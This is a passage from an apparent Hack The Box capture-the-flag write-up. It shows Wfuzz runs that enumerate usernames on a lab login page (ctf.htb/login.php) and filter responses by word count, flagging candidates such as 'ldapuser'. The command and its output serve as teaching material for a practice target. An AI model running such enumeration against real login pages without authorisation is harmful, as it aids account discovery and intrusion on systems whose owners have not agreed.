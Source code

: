 ```
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://ctf.htb/login.php
Total requests: 21168

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000007:  C=200     68 L      229 W         2810 Ch        "!@#%^&*("
000008:  C=200     68 L      229 W         2810 Ch        "!@#%^&*()"
000010:  C=200     68 L      229 W         2810 Ch        "*****"
000002:  C=200     68 L      229 W         2810 Ch        "!@#"
000003:  C=200     68 L      229 W         2810 Ch        "!@#%"
000004:  C=200     68 L      229 W         2810 Ch        "!@#%^"
000005:  C=200     68 L      229 W         2810 Ch        "!@#%^&"
000009:  C=200     68 L      233 W         2827 Ch        """"
000006:  C=200     68 L      229 W         2810 Ch        "!@#%^&*"
000001:  C=200     68 L      233 W         2826 Ch        "-"
000011:  C=200     68 L      233 W         2826 Ch        "0"
000012:  C=200     68 L      233 W         2827 Ch        "00"
000021:  C=200     68 L      233 W         2835 Ch        "0123456789"
000015:  C=200     68 L      233 W         2833 Ch        "00000000"
000016:  C=200     68 L      233 W         2827 Ch        "01"
^C
Finishing pending requests...
```
<br> All "user not found" responses have 233 words so I filtered them :
```
root@kali:~/Desktop/HTB/boxes/ctf# wfuzz -c --hw 233 -u http://ctf.htb/login.php -X POST -d "inputUsername=FUZZ&inputOTP=0000" -w ./multiplesources-users-fabian-fingerle.de.txt                                  

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://ctf.htb/login.php
Total requests: 21168

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000006:  C=200     68 L      229 W         2810 Ch        "!@#%^&*"
000003:  C=200     68 L      229 W         2810 Ch        "!@#%"
000004:  C=200     68 L      229 W         2810 Ch        "!@#%^"
000005:  C=200     68 L      229 W         2810 Ch        "!@#%^&"
000007:  C=200     68 L      229 W         2810 Ch        "!@#%^&*("
000008:  C=200     68 L      229 W         2810 Ch        "!@#%^&*()"
000002:  C=200     68 L      229 W         2810 Ch        "!@#"
000010:  C=200     68 L      229 W         2810 Ch        "*****"
000065:  C=200     68 L      229 W         2810 Ch        "123456*a"
005121:  C=200     68 L      229 W         2810 Ch        "Ch4ng3m3!"
005723:  C=200     68 L      229 W         2810 Ch        "*%Cookie:"
009377:  C=200     68 L      229 W         2810 Ch        "!!Huawei"
011497:  C=200     68 L      231 W         2822 Ch        "ldapuser"
011866:  C=200     68 L      234 W         2835 Ch        "lost+found"
012611:  C=200     68 L      233 W         2831 Ch        "maurta"^C
```